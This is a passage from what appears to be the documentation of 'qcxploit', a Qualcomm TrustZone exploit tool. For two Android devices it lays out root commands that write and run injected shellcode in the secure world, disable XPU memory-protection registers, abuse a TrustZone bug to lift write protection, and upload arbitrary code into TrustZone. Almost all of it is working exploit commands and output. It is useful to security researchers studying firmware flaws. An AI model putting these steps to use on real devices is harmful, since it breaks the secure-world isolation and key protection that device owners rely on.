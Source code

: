   ```
  root@bacon:/data/local/tmp # ./qcxploit writemem FE809C8D 70b5222802d00868106000e00a6070bd
  ```
    
###### 12.5. Running injected shellcode :
   
  ```
  root@bacon:/data/local/tmp # ./qcxploit svcreg32 06 03 03 0 0xFE808796 0xFE82830c
            Sending SVC: 0xc, CMD: 0xe
            IOCTL RES: 0x0000003E
  root@bacon:/data/local/tmp # ./qcxploit readmem 0xFE82830C 4
            Memory read:
           70B5042B
  ```

###### 12.6. For faults, see /d/tzdbg/log
  
  <br/>
  
##### 64 Bit BQ Aquaris X Pro MSM8953
###### 12.1. Disabling XPU
  
  Disable HWIO_BIMC_S_DDR0_XPU_SCR_ADDR (optional, however disables tz key)
  ```
  root@bardock:/ # ./qcxploit svcreg 200020D 4 22 44a000 13f 0
  ```
  
  Disable HWIO_BIMC_S_DDR0_XPU_CR_ADDR
  ```
  root@bardock:/ # ./qcxploit svcreg 200020D 4 22 44a080 19e 0
  ```
  
  Disable HWIO_OCIMEM_MPU_XPU_SCR_ADDR (optional, however disables tz key)
  ```
  root@bardock:/ # ./qcxploit svcreg 200020D 4 22 53000 13f 0
  ```
        
  Disable HWIO_OCIMEM_MPU_XPU_CR_ADDR
  ```
  root@bardock:/ # ./qcxploit svcreg 200020D 4 22 53080 11f 0
  ```
          
  Disable write protection by changing the memory area to be protected
  not to point to the start of tz code area, but instead to point to
  the end of tz code area (writing the end addr 0x866f0000 to 
  HWIO_BIMC_S_DDR0_XPU_PRT2_START0_ADDR) <-- tz bug
  ```
  root@bardock:/ # ./qcxploit svcreg 200020D 4 22 44a340 866f0000 0
  ```
          
###### 12.2. Enable debug logs from tz
  ```
  root@bardock:/ # mount -t debugfs debugfs /d/
  root@bardock:/ # ls /d/tzdbg
  ```
          
###### 12.3. We can now upload any code using devmem directly to the tz
  (here: write code to tz for svc cmd 0x200030F)
  ```     
  root@bardock:/ # ./busybox devmem 0x865ef918
  root@bardock:/ # ./busybox devmem 0x865ef918 32 0x865630fc
  root@bardock:/ # ./busybox devmem 0x865ef918 32 0x86572214
  root@bardock:/ # ./busybox devmem 0x8657221C 32 0xD2800000
  root@bardock:/ # ./qcxploit svcreg 200030F 4 0 53000 13e 0
  ```

